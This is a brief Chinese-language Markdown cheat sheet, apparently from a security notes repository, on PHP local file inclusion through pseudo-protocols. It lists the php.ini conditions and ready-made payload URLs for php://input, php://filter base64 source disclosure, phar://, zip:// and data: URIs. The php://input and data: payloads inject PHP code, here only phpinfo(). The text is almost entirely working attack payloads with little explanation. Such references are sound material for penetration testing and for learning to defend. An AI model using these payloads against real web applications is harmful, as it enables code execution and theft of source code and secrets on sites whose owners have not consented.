 # 伪协议
## 参考

- https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/

## php://input

### 利用条件

​	- allow_url_include = On。
​	- 对allow_url_fopen不做要求。

```
index.php
?file=php://input
POST:
<? phpinfo();?>
```

## php://filter

filter的过滤器有很多。
```
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

## phar://

(PHP 5 >= 5.3.0, PHP 7, PECL phar >= 1.0.0)
```
index.php?file=phar://test.zip/phpinfo.txt
```

## zip://
(PHP 5 >= 5.2.0, PHP 7, PECL zip >= 1.1.0)
绝对路径，编码#

```
index.php?file=zip://D:\phpStudy\WWW\fileinclude\test.zip%23phpinfo.txt
```

## data:
(php>=php5.2, allow_url_fopen = On, allow_url_include = On)
```
index.php?file=data:text/plain,<?php phpinfo();?>
```
